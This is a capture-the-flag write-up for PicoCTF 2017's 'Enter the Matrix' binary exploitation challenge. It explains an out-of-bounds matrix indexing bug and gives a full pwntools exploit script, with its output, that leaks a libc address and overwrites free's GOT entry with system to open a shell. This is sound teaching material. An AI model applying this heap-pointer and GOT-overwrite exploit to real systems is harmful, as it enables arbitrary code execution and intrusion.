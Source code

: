 # PicoCTF_2017: Enter the Matrix

**Category:** Binary Exploitation

**Points:** 150

**Description:**

The Matrix awaits you,. Take the [red pill](https://webshell2017.picoctf.com/static/6a932ca4e0c8977d96dc08b759a6a1aa/matrix) and begin your journey. [Source](https://webshell2017.picoctf.com/static/6a932ca4e0c8977d96dc08b759a6a1aa/matrix.c). Jack in at shell2017.picoctf.com:52501.

**Hint:**

- Look carefully at how the matrix is indexed.
- Study the heap memory layout to see what you can overwrite.

## Write-up
When we have a look at the application, we can see that  `print`  command does not work. I don't know if it was intended, but we can solve the challenge without it.

} else if(2 == sscanf(cmdbuf, "print %d", &id)) {
        handle_print(id);

According to Linux Programmer's Manual  `On success, these functions return the number of input items successfully matched and assigned`, but we have only one parameter (so the function always returns 0 or 1 in this case). We can patch it locally, but unfortunately server also runs version with this bug.

The code isn't too long, so we can analyze it quickly and hopefully find the vulnerability. It appears that vulnerable functions are  `handle_get`  and  `handle_set`.

m->data[r * m->nrows + c] = v;

If number of rows is greater than number of columns we can read/write to arbitrary place in memory. Let's assume 2x3 matrix. It would be printed like this.

```
0 1
2 3
4 5

```

However, if we want to write to  `r=2 c=1`  we'll get  `r * m->nrows + c = 2*3+1=7`. Clearly we accessed the memory after our array.

struct matrix {
    int nrows, ncols;
    float *data;
};

We can create two matrices, one rectangle (number of rows must be greater than number of columns) and second one can be square (it doesn't matter). We'll use first one to overwrite data pointer of the second matrix. Then  `get`  and  `set`  commands will access memory of our choice. We can overwrite some address in  `.got.plt`, but which one is the best? We want to find a function that takes pointer to string we control as first argument.  `handle_command`  and  `free`  are the only function that comply with this requirement (note that there are no types in assembly, so we just need a pointer).  `handle_command`  isn't dynamically loaded, so we can only choose  `free`.

With radare2 on webshell we can obtain offsets we need. (`setbuf`  is first entry in  `.got.plt`)

```
$ r2 /lib32/libc.so.6  
[0x00019bc0]> ?v sym.setbuf
0x6b350
[0x00019bc0]> ?v sym.system
0x3e3e0
```

The last thing we have to do is to create third matrix with our string.

```python
#!/usr/bin/env python2
from pwn import *
from struct import pack,unpack
setbuf_got_plt = 0x0804A104
setbuf_offset = 0x6b350
system_offset = 0x3e3e0
r = remote("shell2017.picoctf.com",19369)
r.send("create 10 5\n")
r.send("create 3 3\n")
r.send("create 2 2\n")
r.send("set 0 5 4 %.9g \n"%(unpack(">f",pack(">I",setbuf_got_plt))[0]))
r.send("get 1 0 0\n")
r.recvuntil("Matrix[0][0] = ")
real_setbuf = unpack(">I",pack(">f",float(r.recvline().strip())))[0]
libc_base = real_setbuf-setbuf_offset
system_addr = libc_base + system_offset
r.send("set 1 0 2 %.9g \n"%(unpack(">f",pack(">I",system_addr))[0]))
r.send("set 2 0 0 %.9g \n"%(unpack("<f","/bin")[0]))
r.send("set 2 0 1 %.9g \n"%(unpack("<f","/sh\x00")[0]))
r.send("destroy 2\n")
r.interactive()
```

If you have problems with floats remember to use  `%.9g`  format, it should allow to represent it unambiguously (when I used  `%f`,  `%g`  or  `%e`  it was encoded differently on server).

```text
$ python matrix.py 
[+] Opening connection to shell2017.picoctf.com on port 52501: Done
[*] Switching to interactive mode
Enter command: Successfully set matrix[0][2] = -4.36863098e+33
Enter command: Successfully set matrix[0][0] = 1.8057176e+28
Enter command: Successfully set matrix[0][1] = 9.59221169e-39
Enter command: $ cat flag.txt
5d19abbdda3886fc91c195c8a3b0d8a1
```

The flag is  `5d19abbdda3886fc91c195c8a3b0d8a1`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3MzgzMDQxMzQsLTExOTkwNzE1NTFdfQ
==
-->